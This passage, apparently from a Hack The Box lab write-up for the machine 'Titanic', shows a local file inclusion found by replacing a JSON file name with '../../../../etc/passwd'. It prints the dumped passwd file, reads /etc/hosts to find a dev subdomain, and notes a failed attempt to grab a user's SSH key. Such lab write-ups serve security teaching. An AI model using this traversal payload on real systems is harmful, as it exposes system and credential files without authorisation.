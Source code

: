  Testing for LFI by replacing `rand-id.json` with `../../../../etc/passwd` successfully returns the contents of `/etc/passwd`. This confirms that the site is vulnerable to LFI.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
### Subdomain Found

 If we visit `/etc/hosts`  using LFI we get this:

```
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic
```

 We can see `dev.titanic.htb` subdomain so Let's add it in our Attack Machine `/etc/hosts`
 From `/etc/passwd`, we see a `developer` user, but grabbing their SSH key directly fails. We also extract `/etc/hosts` to check for additional domains. We find:
### Visiting the Subdomain
